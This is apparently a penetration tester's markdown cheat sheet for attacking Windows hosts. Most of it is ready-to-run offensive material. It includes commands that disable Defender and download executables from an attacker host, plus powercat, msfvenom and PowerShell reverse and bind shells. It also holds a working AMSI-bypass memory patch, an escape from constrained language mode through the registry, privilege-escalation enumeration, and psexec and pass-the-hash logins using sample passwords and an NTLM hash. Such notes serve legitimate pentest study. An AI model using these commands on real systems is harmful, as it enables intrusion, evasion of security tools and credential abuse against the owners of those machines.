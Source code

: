 - Disable Defender
    - Set-MpPreference -DisableRealtimeMonitoring $true
  
# Windows file transfers
- Powershell
    -   `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/wget.exe','C:\Windows\Temp\wget.exe')"`
- Recieve file with powercat(send file with nc) `powercat -c 10.10.10.10 -p 443 -i file.txt`


# Windows shells
- Kali has nc.exe at /usr/share/windows-resources/binaries/nc.exe
- C# compile + run
    - `C:\windows\microsoft.net\framework64\v4.0.30319\csc.exe /t:exe /out:C:\windows\temp\rev.exe C:\windows\temp\rev.cs`
- Powershell 
    - [Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)
    - [Powershell-OneLinerReverseShell](https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/2c6e4a2d6fd72ba0f103cce2afa3b492e347edc2/powershell_reverse_shell.ps1)
    - Base64 encode powershell in linux and execute with -e `Cat shell.ps1 | iconv -t utf-16le | base64 -w 0`
    - [Environment]::Is64BitProcess
    - powershell -ep bypass -noprofile -WindowStyle Hidden -e UYGfxemu...
- Powercat
    - Generate reverse shell `powercat -c 10.10.10.10 -p 443 -e cmd.exe -g`
    - Encoded reverse shell `powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge`
    - Reverse shell `powercat -c 10.10.10.10 -p 443 -e cmd.exe`
    - Bind shell `powercat -l -p 443 -e cmd.exe`
    - Listener `powercat -l -p 443`
- Msf
    -   Powershell `msfvenom -p cmd/windows/reverse_powershell lhost=10.10.10.10 lport=80`
    -   MSHTA
        -   use exploit/windows/misc/hta_server
        -   mshta.exe hxxp://10.10.65.86:8080/VlHPpQahHBNkkeX.hta  
# Bypass
1. AMSI
```
$Win32 = @"
using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@
Add-Type $Win32
$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
2. ConstrainedLanguage mode
`Write-Host $ExecutionContext.SessionState.LanguageMode`
```
If ( $ExecutionContext.SessionState.LanguageMode -eq "ConstrainedLanguage") {

  Set-ItemProperty 'hklm:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -name '__PSLockdownPolicy' -Value 8

  Start-Process -File PowerShell.exe -Argument "-file $($myinvocation.mycommand.definition)"

  Break

}
```

# Windows privilege escalation
- whoami
- net user
- User member of which groups `net user USERNAME`
- Get hostname to understand functionality of box `hostname`
- Get system info `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`
- Running process `tasklist /SVC`
- Get networking info `ipconfig /all` `route print`
- Networking connections `netstat -ano`
- Firewall
	- current profile for firewall `netsh advfirewall show currentprofile`
	- Firewall rules `netsh advfirewall firewall show rule name=all`
- Scheduled Tasks `schtasks /query /fo LIST /v`
- Installed applications `wmic product get name, version, vendor`
- Security patches `wmic qfe get Caption, Description, HotFixID, InstalledOn`
- Writable files
	- `accesschk.exe -uws "Everyone" "C:\Program Files"`
	- `Get-ChildItem "C:\Program Files" - Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}`
- Unmounted disks `mountvol`
- Windows Drivers
	- `driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path`
	- `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}`
- Auto elevate `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer` `reg queryHKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`
- Get intigrity of session(High/Medium/Low in bottom of o/p) `whoami /groups`
- Run as diffrent user `powershell.exe Start-Process cmd.exe -Verb runAs`

### SMB with creds/hashes
- Login with creds
	- `psexec.py administrator:Password1@10.0.0.10`
	- `smbexec.py administrator:carolina@10.0.0.169`
	- `winexe -U administrator%alice_123321 //10.0.0.6 'whoami'`
	- `evil-winrm -u administrator -p rocknroll_123321 -i 10.0.0.192`
- Login with hash
    - `pth-winexe -U user%NTLM_HASH //10.10.10.10 cmd.exe`
    - `python smbclient.py -hashes 00000000000000000000000000000000:3CAC6D4B3A7E5014E32EB12EF0C75476 Domain/Administrator@IP`
